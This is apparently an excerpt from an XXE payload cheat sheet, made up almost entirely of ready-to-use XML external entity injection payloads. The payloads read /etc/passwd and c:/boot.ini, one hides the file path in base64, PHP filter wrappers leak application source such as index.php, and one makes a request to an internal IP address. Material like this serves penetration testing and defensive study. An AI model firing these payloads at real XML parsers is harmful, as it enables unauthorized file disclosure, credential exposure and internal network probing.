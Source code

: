 ```xml
<?xml version="1.0"?>
<!DOCTYPE data [
<!ELEMENT data (#ANY)>
<!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
  <!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><foo>&xxe;</foo>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [  
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///c:/boot.ini" >]><foo>&xxe;</foo>
```

:warning: `SYSTEM` and `PUBLIC` are almost synonym.

```ps1
<!ENTITY % xxe PUBLIC "Random Text" "URL">
<!ENTITY xxe PUBLIC "Any TEXT" "URL">
```

### Classic XXE Base64 encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

### PHP Wrapper inside XXE

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<contacts>
  <contact>
    <name>Jean &xxe; Dupont</name>
    <phone>00 11 22 33 44</phone>
    <address>42 rue du CTF</address>
    <zipcode>75000</zipcode>
    <city>Paris</city>
  </contact>
</contacts>
```

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY % xxe SYSTEM "php://filter/convert.base64-encode/resource=http://10.0.0.3" >
]>
<foo>&xxe;</foo>
```
